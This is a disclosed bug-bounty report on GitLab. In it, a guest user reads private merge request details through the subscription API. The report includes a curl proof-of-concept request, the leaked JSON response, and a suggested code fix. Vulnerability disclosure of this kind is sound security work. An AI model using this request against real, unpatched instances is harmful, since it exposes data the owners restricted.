 # User with guest access can access private merge requests

## Report Details
- **Report ID**: 195134
- **URL**: https://hackerone.com/reports/195134
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-01-01T20:13:06.240Z
- **Disclosed**: 2017-01-23T23:09:46.885Z

## Reporter
- **Username**: jobert
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
# Vulnerability details
A guest user to a private group, cannot access a project's merge requests. However, through the subscription API, an attacker can (un)subscribe itself to a merge request, revealing private information that shouldn't be accessible.

# Impact
Merge request might contain private information that the repository owner does not want to reveal to guest access users. 

# Proof of concept
1. As a group / project owner, invite someone with guest access
2. As the same user, create a merge request - this MR is not accessible by users with guest access
3. Accept the invitation as a new user and create an API token for your account
4. Now send a `POST` request to the subscription API with a reference to the MR:

**Request**
```
curl -X POST -H "Private-Token: XXXX" http://gitlab-instance/api/v3/projects/1/merge_requests/1/subscription
```

**Response**
```json
{
  "id": 2,
  "iid": 2,
  "project_id": 1,
  "title": "<title>",
  "description": "<description>",
  "state": "opened",
  "created_at": "2017-01-01T19:55:03.121Z",
  "updated_at": "2017-01-01T19:55:03.121Z",
  "target_branch": "master",
  "source_branch": "dev",
  "upvotes": 0,
  "downvotes": 0,
  "author": {
    "name": "XXX",
    "username": "XXX",
    "id": 1,
    "state": "active",
    "avatar_url": "...",
    "web_url": "..."
  },
  "assignee": null,
  "source_project_id": 2,
  "target_project_id": 2,
  "labels": [
    
  ],
  "work_in_progress": false,
  "milestone": null,
  "merge_when_build_succeeds": false,
  "merge_status": "can_be_merged",
  "sha": "c60a6c2312c184942b19c1828abb3d65e66c01c7",
  "merge_commit_sha": null,
  "subscribed": true,
  "user_notes_count": 0,
  "approvals_before_merge": null,
  "should_remove_source_branch": null,
  "force_remove_source_branch": false,
  "web_url": "..."
}
```

You'll notice that when requesting the MR directly, the server will return a 403.

**Request**
```
curl -X GET -H "Private-Token: XXXX" http://gitlab-instance/api/v3/projects/1/merge_requests/2
```

**Response**
```json
{"message":"403 Forbidden"}
```

# Remediation
Use the appropriate finder in the `lib/api/subscriptions.rb` on line 6 and 7 instead of calling `find` directly on the `merge_requests` relationship. This will scope the available merge requests to the ones that the user can subscribe to.

## Attachments
No attachments
